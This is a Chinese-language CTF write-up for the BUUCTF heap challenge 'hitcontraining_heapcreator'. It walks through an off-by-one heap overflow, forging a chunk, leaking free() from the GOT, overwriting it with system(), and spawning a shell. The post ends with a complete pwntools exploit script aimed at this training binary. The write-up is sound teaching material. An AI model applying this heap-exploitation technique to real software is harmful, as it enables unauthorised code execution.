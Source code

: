 ```yaml
---
title: 'hitcontraining_heapcreator'
date: 2024-04-26 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,off_by_one,heapoverflow]
---
```

 [[BUUCTF](https://buuoj.cn/challenges#hitcontraining_heapcreator)]hitcontraining_heapcreator

`UAF`|`Off-By-One`|`堆溢出`

对应`libc`版本`libc6_2.23-0ubuntu9_amd64`

```shell
[*] '/home/bamuwe/heapcreator/heapcreator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fc000)
```

```shell
bamuwe@bamuwe:~/heapcreator$ ./heapcreator
--------------------------------
          Heap Creator
--------------------------------
 1. Create a Heap
 2. Edit a Heap
 3. Show a Heap
 4. Delete a Heap
 5. Exit
--------------------------------
Your choice :
```

```c
unsigned __int64 edit_heap()
{
  int v1; // [rsp+Ch] [rbp-14h]
  char buf[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 >= 0xA )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&heaparray + v1) )
  {
    printf("Content of heap : ");
    read_input(*(*(&heaparray + v1) + 1), **(&heaparray + v1) + 1LL);	//漏洞点
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
> 漏洞函数
```python
def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))
```

> 交互函数

思路：

通过`off-by-one`构造`fakechunk`,利用`fakechunk`泄露`libc`，更换`free()`地址为`system()`，得到`shell`

```python
add(0x18,b'0000')   		#0
add(0x10,b'1111')   		#1
add(0x10,b'2222')   		#2
add(0x10,b'/bin/sh\x00')    #3
edit(0,b'A'*0x18+p8(129))
```

![image-20240426165211798](../assets/img/old_imgs/image-20240426165211798.png)

> 运行后截图

可以发现已经溢出了一字节`（0x81）`，将这个`chunk1`释放，再申请回来就能够通过这个`chunk1`编辑其他`chunk`的内容

```python
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
```

![image-20240426170324709](../assets/img/old_imgs/image-20240426170324709.png)

> 运行后截图

![image-20240426170524597](../assets/img/old_imgs/image-20240426170524597.png)

对比可以更改了原来的`BK`伪造出`fake_chunk`，即此时的`chun2`已经是`free()`的地址

![image-20240426171126423](../assets/img/old_imgs/image-20240426171126423.png)

继续计算出`system()`的值并且替换`free()`

```python
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
```

![image-20240426171632077](../assets/img/old_imgs/image-20240426171632077.png)

> 测试用多打印一次`chunk2`的内容

再`free(3)`就能构造出`system(/bin/sh)`得到`shell`

exp:

```python
from pwn import *
# context.log_level = 'debug'
io = gdb.debug('./heapcreator')
elf = ELF('./heapcreator')
lib = ELF('#####')

def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))

add(0x18,b'0000')   #chunk0
add(0x10,b'1111')   #chunk1
add(0x10,b'2222')   #chunk2/fake_chunk
add(0x10,b'/bin/sh\x00')    #chunk3

edit(0,b'A'*0x18+p8(129))
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
free(3)
io.interactive()
```

tips:

关于`libc_base`计算小技巧

```python
success(hex(free_addr))
libc_base = free_addr-0x83a70	#0x83a70从何而来？
```

![image-20240426172143920](../assets/img/old_imgs/image-20240426172143920.png)

